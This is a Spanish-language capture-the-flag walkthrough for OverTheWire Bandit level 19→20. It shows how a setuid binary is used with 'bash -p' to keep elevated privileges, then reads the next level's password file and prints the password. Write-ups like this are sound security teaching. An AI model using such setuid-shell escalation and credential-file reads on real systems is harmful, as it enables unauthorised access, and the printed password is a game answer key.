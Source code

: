 ```bash
bandit19@bandit:~$ ./bandit20-do whoami
bandit20
```

- *Confirma que el comando se ejecuta con los permisos de `bandit20`.*

---

### **Problema con shells:**

```bash
bandit19@bandit:~$ ./bandit20-do bash
bash-5.2$ whoami
bandit19
```

- *Aunque `bash` se inicia, el usuario sigue siendo `bandit19` debido a que el shell intenta reiniciar el UID efectivo.*

---

## **Solución: Usar el flag `-p` (privileged):**

*El flag `-p` evita que el shell reinicie el UID efectivo, permitiendo mantener los privilegios de `bandit20`.*

```bash
bandit19@bandit:~$ ./bandit20-do bash -p
bash-5.2$ whoami
bandit20
```

- *Ahora el shell mantiene los privilegios de `bandit20`.*

---

### **Ejecutando `sh` con privilegios:**

```bash
bandit19@bandit:~$ ./bandit20-do sh -p
$ whoami
bandit20
```

---

## **Obtención de la contraseña:**

*Finalmente, puedes usar el binario para leer el fichero que contiene la contraseña del siguiente nivel:*

```bash
bandit19@bandit:~$ ./bandit20-do cat /etc/bandit_pass/bandit20
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
```
